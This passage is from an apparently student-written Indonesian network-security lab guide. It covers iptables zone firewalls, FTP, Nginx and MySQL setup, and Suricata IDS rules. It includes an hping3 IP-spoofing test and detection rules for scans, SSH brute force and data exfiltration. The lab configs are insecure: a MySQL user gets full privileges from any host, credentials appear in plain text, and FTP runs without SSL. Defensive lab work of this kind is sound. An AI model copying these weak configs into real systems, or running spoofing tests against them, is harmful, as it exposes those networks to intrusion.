# ================== 8. CLEANUP (CATCH-ALL) ==================
# SSH Hanya Admin
iptables -A INPUT -i "$ADM_IF" -p tcp --dport 22 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j LOG_ATTACK

# Tangkap Sisanya
# WAN -> Drop diam-diam
iptables -A INPUT -i "$WAN_IF" -j SILENT_DROP
# LAN -> Reject (Inilah yang akan memblokir Ping Guest ke Admin)
iptables -A INPUT -j LOG_REJECT
iptables -A FORWARD -j LOG_REJECT

log_step "Firewall STRICT MODE Aktif."
exit 0
```


Bisa ditambahkan seperti contoh di bawah ini untuk akses ke port ftp dan web

```
# 3. Izinkan ke Internet (Web, DNS, DAN FTP)
# Web & DNS
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp -m multiport --dports "$WEB_PORTS" -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p udp --dport "$DNS_PORT" -j ACCEPT
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp --dport "$DNS_PORT" -j ACCEPT

# === TAMBAHAN: IZINKAN FTP KE PUSAT KOLABORASI/INTERNET ===
# Port Command FTP
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp --dport 21 -j ACCEPT
# Port Data FTP (Passive Mode)
iptables -A FORWARD -i "$MHS_IF" -o "$WAN_IF" -p tcp --dport 10000:10100 -j ACCEPT
```


***


Cara uji coba

```
# Monitor semua serangan
tail -f /var/log/kern.log | grep "ATTACK\|BRUTE\|FLOOD\|SCAN\|BLOCK"

# Monitor per zona
tail -f /var/log/kern.log | grep "MHS->.*BLOCK"   # Mahasiswa mencoba akses ilegal
tail -f /var/log/kern.log | grep "GUEST_FLOOD"    # Guest flood internet
tail -f /var/log/kern.log | grep "SSH_BRUTE"      # Brute force SSH
tail -f /var/log/kern.log | grep "NULL_SCAN"      # Port scanning

```

***

### Setup pada firewall-other (sekaligus menjadi router pusat kolaborasi)


```
# Loopback
auto lo
iface lo inet loopback

# Interface eth0 (Arah ke Switch1/Main Firewall)
# Kita set DHCP agar otomatis dapat IP dari jaringan utama
auto eth0
iface eth0 inet static
  address 192.168.69.3
  netmask 255.255.255.0
  gateway 192.168.69.1
  up echo nameserver 192.168.122.1 > /etc/resolv.conf

auto eth1
iface eth1 inet static
address 192.168.20.1
netmask 255.255.255.0
up ip route add 192.168.20.0/24 via 192.168.20.1 dev eth1
```


Script firewall-other

```
#!/bin/bash
set -euo pipefail

# ================== KONFIGURASI ==================
WAN_IF="eth0"   # IP: 192.168.69.3
LAN_IF="eth1"   # IP: 192.168.20.1
SERVER_IP="192.168.20.2" # IP Pusat Kolaborasi

# 1. GROUP YANG DIBLOKIR (Pusat Kolab GAK BOLEH akses ke sini)
# (Daftar semua subnet internal kantor)
INTERNAL_SUBNETS=(
    "192.168.10.0/24" "192.168.2.0/24" "192.168.3.0/24"
    "192.168.4.0/24" "192.168.5.0/24" "192.168.6.0/24" "192.168.7.0/24"
)

# 2. GROUP YANG DIIZINKAN AKSES MASUK (Whitelist)
# Hanya departemen ini yang boleh membuka Web/SSH/FTP Pusat Kolaborasi
ALLOWED_GROUPS=(
    "192.168.10.0/24" # Admin
    "192.168.2.0/24"  # Mahasiswa (Router)
    "192.168.6.0/24"  # Mahasiswa (Client)
    "192.168.3.0/24"  # Akademik (Router)
    "192.168.7.0/24"  # Akademik (Client)
)

# ================== RESET & SETUP ==================
echo "Mengaktifkan Firewall-Other (Whitelist Mode)..."
iptables -F; iptables -t nat -F; iptables -X
echo 1 > /proc/sys/net/ipv4/ip_forward

# Default Policy: DROP SEMUA (Sangat Ketat)
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# ================== LOGGING CHAIN ==================
iptables -N LOG_REJECT
iptables -A LOG_REJECT -m limit --limit 5/min -j LOG --log-prefix "[OTHER-REJECT] " --log-level 4
iptables -A LOG_REJECT -j REJECT --reject-with icmp-host-prohibited

# ================== A. ATURAN INPUT (PING KE FIREWALL INI) ==================
# 1. Izinkan Loopback & Established
iptables -A INPUT -i lo -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# 2. HANYA Group Terdaftar yang boleh Ping ke IP WAN (192.168.69.3)
for SRC in "${ALLOWED_GROUPS[@]}"; do
    iptables -A INPUT -i $WAN_IF -s "$SRC" -p icmp --icmp-type echo-request -j ACCEPT
done

# 3. Sisanya (Guest/Riset/Bandit) Ping -> REJECT
iptables -A INPUT -p icmp -j LOG_REJECT

# ================== B. ATURAN PORT FORWARDING (AKSES MASUK) ==================
# DNAT: Belokkan trafik Port Service ke IP Server Lokal
# (Semua trafik diarahkan dulu, nanti difilter di FORWARD)
iptables -t nat -A PREROUTING -i $WAN_IF -p tcp -m multiport --dports 80,443,22,21,3306 -j DNAT --to-destination $SERVER_IP
# FTP Passive Ports
iptables -t nat -A PREROUTING -i $WAN_IF -p tcp --dport 10000:10100 -j DNAT --to-destination $SERVER_IP

# FILTERING FORWARD: Siapa yang boleh menembus DNAT tadi?
for SRC in "${ALLOWED_GROUPS[@]}"; do
    # Web, SSH, MySQL, FTP Command
    iptables -A FORWARD -i $WAN_IF -o $LAN_IF -s "$SRC" -d $SERVER_IP -p tcp -m multiport --dports 80,443,22,21,3306 -j ACCEPT
    # FTP Passive Data
    iptables -A FORWARD -i $WAN_IF -o $LAN_IF -s "$SRC" -d $SERVER_IP -p tcp --dport 10000:10100 -j ACCEPT
done

# Sisanya (Guest dll) yang mencoba akses service -> Jatuh ke Default DROP

# ================== C. ATURAN ISOLASI (PUSAT KOLAB GAK BOLEH KELUAR KE INTERNAL) ==================
for SUBNET in "${INTERNAL_SUBNETS[@]}"; do
    # Blokir akses dari Server Kolaborasi ke Jaringan Kantor
    iptables -A FORWARD -i $LAN_IF -o $WAN_IF -d "$SUBNET" -j LOG_REJECT
done

# ================== D. ATURAN INTERNET (NAT KELUAR) ==================
# Izinkan Pusat Kolaborasi ke Internet (Google dll), selain subnet internal di atas
iptables -t nat -A POSTROUTING -o $WAN_IF -j MASQUERADE
iptables -A FORWARD -i $LAN_IF -o $WAN_IF -j ACCEPT
iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT

echo "Firewall-Other Siap. Hanya Admin, MHS, Akademik yang boleh masuk."
```


### Setup pada client/fasilitas pusat kolaborasi


```
# Loopback
auto lo
iface lo inet loopback

# Interface eth0 (Ke Firewall-Other)
auto eth0
iface eth0 inet static
    address 192.168.20.2
    netmask 255.255.255.0
    gateway 192.168.20.1
    dns-nameservers 192.168.122.1
```


### Setup fasilitas MySQL

```
-- 1. Hapus user yang tadi salah buat (opsional)
DROP USER IF EXISTS 'Kolaborasi123'@'%';

-- 2. Buat User dengan Username = Hash MD5
CREATE USER 'faf52aa1661af124350ee01a13fd5ebc'@'%' IDENTIFIED BY 'a47497f6a2560c6d6da4907bc5cc9db7';

-- 3. Berikan Hak Akses
GRANT ALL PRIVILEGES ON *.* TO 'faf52aa1661af124350ee01a13fd5ebc'@'%' WITH GRANT OPTION;

-- 4. Simpan
FLUSH PRIVILEGES;
EXIT;
```

### Setup fasilitas nginx

```
# 1. Install Nginx (Jika belum)
apt install nginx -y

# 2. Buat Halaman Index (Pakai tanda kutip satu ' agar !DOCTYPE aman)
echo '<!DOCTYPE html>
<html>
<head><title>Pusat Kolaborasi</title></head>
<body>
    <h1>Selamat Datang di Pusat Kolaborasi</h1>
    <p>Fasilitas Tersedia:</p>
    <ul>
        <li>Web Server (Port 80) - OK</li>
        <li>SSH Server (Port 22) - User MD5</li>
        <li>FTP Server (Port 21) - User MD5</li>
        <li>Database (Port 3306) - User MD5</li>
    </ul>
</body>
</html>' > /var/www/html/index.html

# 3. Restart Nginx (Gunakan perintah service)
service nginx restart

# 4. Enable Nginx (Pengganti systemctl enable di sistem lama)
update-rc.d nginx defaults

# 5. Cek Status
service nginx status


```


### Fasilitas ftp server (VSFTPD)

```
apt update
apt install vsftpd -y
```


```
# Backup config asli (jaga-jaga)
cp /etc/vsftpd.conf /etc/vsftpd.conf.bak

# Tulis Konfigurasi Baru
cat > /etc/vsftpd.conf <<EOF
listen=NO
listen_ipv6=YES
anonymous_enable=NO
local_enable=YES
write_enable=YES
dirmessage_enable=YES
use_localtime=YES
xferlog_enable=YES
connect_from_port_20=YES
# Jail user di home directory agar tidak bisa melihat folder sistem
chroot_local_user=YES
# Fix error "500 OOPS" pada vsftpd versi baru
allow_writeable_chroot=YES
# Gunakan waktu lokal
use_localtime=YES

# SSL dimatikan dulu untuk kemudahan setup awal
ssl_enable=NO

# === KONFIGURASI PASSIVE MODE (WAJIB UNTUK NAT) ===
pasv_enable=YES
# Range port untuk transfer data (sesuai yang dibuka di Firewall-Other)
pasv_min_port=10000
pasv_max_port=10100
# IP WAN Firewall-Other (IP yang dilihat client dari luar)
# Pastikan ini sesuai IP eth0 Firewall-Other Anda (192.168.69.3)
pasv_address=192.168.69.3
EOF
```

```
listen=YES          <-- UBAH JADI YES (Wajib untuk IPv4 Standalone)
listen_ipv6=NO      <-- UBAH JADI NO
# ... sisanya biarkan sama ...
```

Buat username dan pw

```shellscript
# Buat user (jika belum ada)
id faf52aa1661af124350ee01a13fd5ebc >/dev/null 2>&1 || useradd -m -s /bin/bash faf52aa1661af124350ee01a13fd5ebc

# Set Password MD5
echo "faf52aa1661af124350ee01a13fd5ebc:a47497f6a2560c6d6da4907bc5cc9db7" | chpasswd
```


***


&#x20; 


# Hasil Pengujian 


## Client & Routern MHS


Client MHS1 ping ke routernya 


Client MHS1 ping ke MHS lain


Client MHS1 -> akademik



Ini sudah benar karena tidak seharusnya mahasiswa dapat mengakses dari fitur2 atau benefit dari tendik/dosen





Mahasiswa dapat mengakses jaringan lab, namun tidak bisa akses ke riset dan & IoT device (upaya pemblokiran untuk mitigas upaya penyerangan atau tindak illegal)




***


### Guest



Dari sini Client guest tidak dapat melakukan akses pada internal seperti admin,mahasiswa,akademik,riset, namun guest masih bisa terhubung ke jaringan dengan dibuktikan dapat ping google.com , apt update





Sesama guest bisa akses networknya 


Juga guest tidak bisa ping ke jalur Lab (Riset)

***


### Akademik 


Akademik tidak dapat ping ke mahasiswa (sudah benar), karena menghindari (mitigasi) untuk akses yang tidak sah atau upaya penyerangan jika client MHS terkena retas


### pusat-kolaborasi -> internal

### &#xA;



node pusat kolaborasi dapat melakukan ping namun status yang ditunjukkan yakni kesimpulannya adanya reject karena seharusnya dari node pusat kolaborasi tidak seharusnya dapat akses milik internal. yang diberikan akses dari internal yakni hanya admin,mahasiswa dan akademik.




***

# Security Testing


Uji ip spoofing

```
hping3 -1 -c 3 -a 192.168.1.2 192.168.1.1
```


Percobaan flooding





Semua masih normal dan masih bisa ping satu sama lain 


***

## ZBF VS ZPF VS DMZ


|                        |                                                                                                          |                                                                                                               |                                                                                                            |
| ---------------------- | -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| **Definisi Dasar**     | **Metode Konfigurasi** firewall (khususnya Cisco IOS) yang mengelompokkan interface ke dalam zona logis. | **Metode Konfigurasi** firewall (umum di VyOS, Ubiquiti EdgeOS) yang menerapkan kebijakan (policy) pada zona. | **Area/Segmen Jaringan** fisik atau logis yang terisolasi, menampung layanan publik.                       |
| **Jenis Entitas**      | Ini adalah **ALAT (Tool) / Fitur Software**.                                                             | Ini adalah **ALAT (Tool) / Fitur Software**.                                                                  | Ini adalah **LOKASI (Place) / Desain**.                                                                    |
| **Fokus Utama**        | Mengatur **lalu lintas antar zona** (misal: dari Zona `Inside` ke Zona `Outside`).                       | Sama dengan ZBF, mengatur aturan (ruleset) yang ditempelkan pada trafik antar zona.                           | Menyediakan layanan publik (Web, Mail, DNS) yang bisa diakses internet tapi **terpisah dari LAN**.         |
| **Logika Kerja**       | Menggunakan konsep **Zone-Pair**. "Jika trafik dari A ke B, maka lakukan Inspeksi".                      | Menggunakan konsep **Ruleset**. "Zona A punya aturan 'X' untuk trafik yang masuk dari B".                     | **Semi-Trusted Zone**. Boleh diakses dari Internet, tapi DILARANG mengakses LAN (Internal).                |
| **Vendor Khas**        | **Cisco** (IOS Zone-Based Policy Firewall).                                                              | **VyOS, Ubiquiti EdgeRouter, Linux Firewalld** (Implementasi Open Source).                                    | **Universal** (Semua vendor firewall mendukung konsep DMZ).                                                |
| **Default Policy**     | **Implicit Deny**. (Jika tidak ada aturan zone-pair, semua trafik diblokir).                             | **Implicit Deny** (biasanya). Harus ada aturan eksplisit untuk mengizinkan trafik.                            | Tergantung kebijakan admin, tapi standarnya: Internet -> DMZ (Allow), DMZ -> LAN (Block).                  |
| **Contoh Konfigurasi** | `zone-pair security IN-TO-OUT source INSIDE destination OUTSIDE`                                         | `set zone-policy zone INSIDE from OUTSIDE firewall name WAN_IN`                                               | Subnet `192.168.8.0/24` (Lab/Server) yang terpisah dari `192.168.1.0/24` (User).                           |
| **Analogi Satpam**     | **SOP Satpam:** "Siapapun yang jalan dari *Lobi* ke *Ruang Brankas*, periksa ID-nya."                    | **Buku Aturan:** "Untuk Zona *Lobi*, terapkan Aturan No. 5 jika ada orang masuk dari Jalan Raya."             | **Ruang Tunggu Tamu:** Orang luar boleh masuk sini, tapi dari sini tidak boleh masuk ke kamar tidur utama. |


***

# Setup IDS (Suricata)


1. Buka firewall utama pada node GNS3 nya yang sekaligus menjadi main router pada jaringan internal


Masuk pada folder bernama ids\_suricata


Setup awal

```
cd /root/ids_suricata
mkdir -p /etc/suricata/rules (Buat folder baru karena by default suricata di /var/../..)

nano /etc/suricata/suricata.yaml (Lanjut ke proses di bawahnya)
```

Lanjutkan dengan proses dibawah ini 

```
#Ubah ini
# Default config for suricata

#(PENTING) untuk konfig dibawah ini seperti RUN=yes itu masuk pada folder berikut
#nano /etc/default/suricata

# set to yes to start the server in the init.d script
RUN=yes # <-- UBAH INI DARI 'no' KE 'yes'
  
#Ubah default suricata yang jadi IPS menjadi IDS (Sesuaikan kebutuhan)
# Default config for suricata

# LISTENMODE can be: nfqueue, af-packet, pcap
LISTENMODE=af-packet  # <-- PASTIKAN INI, JANGAN nfqueue


# Pergi ke /etc/suricata/suricata.yaml

nano /etc/suricata/suricata.yaml


vars:
  address-groups:
    # Definisi HOME_NET (Cukup satu kali saja)
    HOME_NET: "[192.168.0.0/16, 10.0.0.0/8, 172.16.0.0/12]"
    
    # Definisi EXTERNAL_NET
    EXTERNAL_NET: "!$HOME_NET"

    # Definisi Custom Variables
    MAHASISWA_NET: "[192.168.6.0/24]"
    RISET_SERVER: "192.168.8.4"

    # HTTP Servers (Opsional, sesuaikan atau biarkan default)
    HTTP_SERVERS: "$HOME_NET"

#Ganti dengan ini 
default-rule-path: /etc/suricata/rules

rule-files:
 # - suricata.rules #(Bisa nonaktifkan saja ini)
  - local.rules  <-- Pastikan baris ini ada!


# Buat custom rules (Seperti deteksi nmap,tcp syn dll)
nano /etc/suricata/rules/local.rules

alert tcp $MAHASISWA_NET any -> $RISET_SERVER any (msg:"ALERT: SYN Scan Detected from Mahasiswa"; flags:S; flow:stateless; threshold: type both, track by_src, count 20, seconds 10; sid:1000001; rev:1;)
alert tcp any any -> $RISET_SERVER 22 (msg:"ALERT: SSH Brute Force Attempt on Riset Server"; flow:to_server, established; content:"SSH-"; nocase; threshold: type both, track by_src, count 5, seconds 30; sid:1000002; rev:1;)
alert tcp $RISET_SERVER any -> any 80 (msg:"ALERT: Data Exfiltration Detected - Confidential File"; flow:to_server, established; content:"POST"; http_method; content:"confidential"; http_client_body; sid:1000003; rev:1;)


#Cari bagian af-packet, kemudian lakuakn konfigurasi berikut :
af-packet:
  - interface: eth0
    cluster-id: 99
    cluster-type: cluster_flow
    defrag: yes
  # Tambahkan interface internal kamu:
  - interface: eth2  # Jalur MHS (Sumber Serangan)
    cluster-id: 98
    cluster-type: cluster_flow
    defrag: yes
  - interface: eth4  # Jalur Riset (Target Serangan)
    cluster-id: 97
    cluster-type: cluster_flow
    defrag: yes

# Ubah juga checksum dari yes ke no
# Set this to no to disable checksum validation.
checksum-validation: no  <-- UBAH JADI 'no'

suricata -T -c /etc/suricata/suricata.yaml -v
service suricata restart


```


Ini untuk ubah dari checksum-validation:yes -> checksum-validation: no




## Custom script rules (Beta)

```

nano /etc/suricata/rules/local.rules

# ==========================================================
# SURICATA AGGRESSIVE DEMO RULES (NO DELAY, HIGH SENSITIVITY)
# ==========================================================

# 1. DETEKSI PING (Untuk Cek Konektivitas/Heartbeat)
# Menangkap semua ICMP dari mana saja ke mana saja.
alert icmp any any -> any any (msg:"[INFO] PING / ICMP Detected"; sid:100001; rev:1;)

# 2. DETEKSI PORT SCANNING (Nmap SYN)
# Logic: Setiap ada paket SYN (Awal koneksi) ke Server Riset, langsung ALERT!
# Hapus Threshold: 1 Paket pun langsung terdeteksi.
alert tcp any any -> $RISET_SERVER any (msg:"[WARN] Port Scanning / TCP Connection Attempt (SYN)"; flags:S; flow:stateless; sid:100002; rev:1;)

# 3. DETEKSI SSH BRUTE FORCE
# Logic: Jika ada paket SYN ke Port 22 lebih dari 2 kali dalam 10 detik.
# Dibuat sangat sensitif (Count 2) agar cepat muncul.
alert tcp any any -> $RISET_SERVER 22 (msg:"[ALERT] SSH Brute Force / Intense Login Attempt"; flags:S; flow:stateless; threshold: type both, track by_src, count 2, seconds 10; sid:100003; rev:1;)

# 4. DETEKSI DATA EXFILTRATION (HTTP)
# Logic: Mencari kata kunci 'confidential' dalam paket keluar.
# Hapus 'established' agar bisa mendeteksi payload di awal paket (jika ada).
alert tcp $RISET_SERVER any -> any any (msg:"[CRITICAL] Data Exfiltration Detected (Confidential)"; content:"confidential"; nocase; sid:100004; rev:1;)
```


Untuk mempermudah semua setup suricata, diputuskan membuat sebuah scripting shell untuk konfigurasi IDS secara keseluruhan sebagai berikut :


## Setup Suricata

```
#!/bin/bash

# ====================================================
# SURICATA DEPLOYMENT SCRIPT (FROM LOCAL SOURCE)
# Sumber File: /root/ids_suricata (Folder saat ini)
# ====================================================

# 1. Definisi Variabel
SOURCE_DIR="/root/ids_suricata"
CONFIG_FILE="suricata.yaml"
RULES_FILE="local.rules"
INTERFACES=("eth0" "eth2" "eth4") # Sesuaikan interface Anda

# Warna output
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
RED='\033[0;31m'
NC='\033[0m'

echo -e "${GREEN}[+] Memulai Deployment dari folder: ${SOURCE_DIR}${NC}"

# 2. Validasi File Sumber
if [ -f "$SOURCE_DIR/$CONFIG_FILE" ] && [ -f "$SOURCE_DIR/$RULES_FILE" ]; then
